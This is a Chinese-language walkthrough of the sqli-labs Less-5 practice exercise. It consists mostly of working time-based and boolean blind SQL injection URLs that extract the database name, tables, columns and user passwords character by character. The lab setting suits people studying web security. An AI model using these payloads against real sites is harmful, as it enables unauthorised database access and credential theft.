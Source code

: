```
http://daishen.ltd:1112/Less-5/?id=1' and if(length(database())=8,sleep(5),1) --+
```

爆库名payload数据库第一个字符为s，加下来以此增加left(database(),字符长度)中的字符长度，等号右边以此爆破下一个字符，正确匹配时会延迟。最终爆破得到left(database(),8)='security'

```
http://daishen.ltd:1112/Less-5/?id=1' and if(left(database(),1)='s',sleep(5),1) --+		第一个字母为s

http://daishen.ltd:1112/Less-5/?id=1' and if(left(database(),2)='se',sleep(5),1) --+	第二个字母为e
```

爆表名payload

```
http://daishen.ltd:1112/Less-5/?id=1' and if( left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' ,sleep(5),1)--+

直接猜
?id=1' and if(left((select table_name from information_schema.tables where table_schema=database() limit 3,1),5)='users',sleep(5),5)--+
```

爆列名payload

```
http://daishen.ltd:1112/Less-5/?id=1' and if(left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' ,sleep(5),1)--+
```

暴数据payload按照id排序，这样便于对应。注意limit 从0开始.坚持不懈的尝试

```
http://daishen.ltd:1112/Less-5/?id=1' and if(left((select username from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+

http://daishen.ltd:1112/Less-5/?id=1' and if(left((select password from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+
```

需要注意的是，mysql对大小写不敏感，所以你不知道是Dumb 还是dumb。

### **方法二，布尔型手工注入**

在布尔型注入中，**正确会回显，错误没有回显**，以此为依据逐字爆破，

暴库payload

```
http://daishen.ltd:1112/Less-5/?id=1' and left((select database()),1)='s' --+

http://daishen.ltd:1112/Less-5/?id=1' and left((select database()),2)='se' --+
```

爆表paylaod

```
http://daishen.ltd:1112/Less-5/?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 3,1),1)='u' --+

http://daishen.ltd:1112/Less-5/?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 3,1),2)='us' --+
```
